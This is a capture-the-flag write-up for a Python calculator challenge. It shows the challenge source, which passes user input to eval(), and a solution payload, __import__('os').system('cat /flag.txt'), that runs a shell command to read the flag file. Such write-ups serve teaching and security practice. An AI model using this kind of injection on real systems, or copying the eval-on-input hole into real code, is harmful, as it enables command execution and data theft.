

## Description of the challenge

I made this calculator. I have a feeling that it's not safe :(

## Solution
Dockerfile: 
```
FROM python:3.12-slim

WORKDIR /challenge

COPY chall.py /challenge/chall.py
COPY flag.txt /flag.txt

RUN chmod +x /challenge/chall.py


CMD ["python", "/challenge/chall.py"]
```

Code source: 
```#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```  

As we can see, the function eval() is called. We can execute systems command. The idea is to send to the server a valid python code that will print the content of the flag.txt.  

**Input:** ```__import__('os').system('cat /flag.txt')```

